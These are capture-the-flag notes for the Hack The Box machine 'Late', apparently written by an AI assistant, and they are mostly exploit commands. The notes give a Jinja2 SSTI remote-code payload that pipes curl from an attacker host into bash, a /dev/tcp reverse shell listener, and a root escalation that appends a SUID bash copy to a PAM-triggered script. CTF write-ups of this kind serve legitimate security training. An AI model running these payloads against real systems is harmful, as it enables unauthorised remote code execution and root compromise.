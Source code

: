# 🔎 HTB: Late – Command & Exploit Notes

---

## ⚙️ Recon

### Nmap Scan
```bash
nmap -p- --min-rate 10000 10.10.11.156
nmap -p 22,80 -sCV 10.10.11.156
```
- **Open Ports**:
  - `22/tcp`: SSH - OpenSSH 7.6p1 (Ubuntu 18.04)
  - `80/tcp`: HTTP - nginx 1.14.0

### Hosts File Entry
```bash
echo "10.10.11.156 late.htb images.late.htb" | sudo tee -a /etc/hosts
```

### Fuzzing Subdomains
```bash
wfuzz -u http://10.10.11.156 -H "Host: FUZZ.late.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt --hh 9461
```
- Found: `images.late.htb`

### images.late.htb
- Online image OCR interface.
- Upload image ➔ converts to text ➔ returned as `results.txt`
- Mentions **Flask** backend

---

## 🚀 Initial Foothold (svc_acc)

### Vulnerability Discovery
- Image upload returns parsed text in a rendered Flask template.
- Test with image containing:
```
{{ 7*7 }}
```
- Returned: `49` ➔ **SSTI confirmed**

### Payload Trials
- Use [PayloadsAllTheThings Jinja2 RCE](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Injection/README.md#jinja2)
- Payload:
```jinja
{{ cycler.__init__.__globals__.os.popen('id').read() }}
```
- **Font Troubleshooting**:
  - Use **FreeMono** or similar monospaced font.
  - Goal: Accurate character recognition (underscores, parens, quotes)

### Reverse Shell
```jinja
{{ cycler.__init__.__globals__.os.popen("curl http://10.10.14.6/r | bash").read() }}
```
Create `/r` file on local server:
```bash
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.6/443 0>&1
```
Then:
```bash
python3 -m http.server 80
nc -lnvp 443
```
- Shell returned as `svc_acc`

---

## 🔒 Privilege Escalation to root

### File Enumeration
```bash
ls -l /usr/local/sbin/ssh-alert.sh
lsattr /usr/local/sbin/ssh-alert.sh
```
- `ssh-alert.sh` runs on SSH login (from `/etc/pam.d/sshd`)
- Has **append-only (a)** extended attribute
- Script is **owned by svc_acc** and **appendable**

### Exploit via SSH Login Trigger
Append reverse shell prep to the script:
```bash
echo -e "cp /bin/bash /tmp/.0xdf\nchmod 4755 /tmp/.0xdf" >> /usr/local/sbin/ssh-alert.sh
```
Then re-login via SSH:
```bash
/tmp/.0xdf -p
```
- Root shell acquired.

---

## 🔊 Flags

### User
```bash
cat /home/svc_acc/user.txt
```

### Root
```bash
cat /root/root.txt
```

---

## 🔜 Beyond Root
- Debug web stack:
  - Nginx ➔ Gunicorn ➔ Flask App
- Logins trigger `pam_exec.so` ➔ `ssh-alert.sh` ➔ Email alert
- Overwrite abuse via append-only shell drop

---

Let me know if you want this converted for Obsidian, PDF, or Markdown export ✨

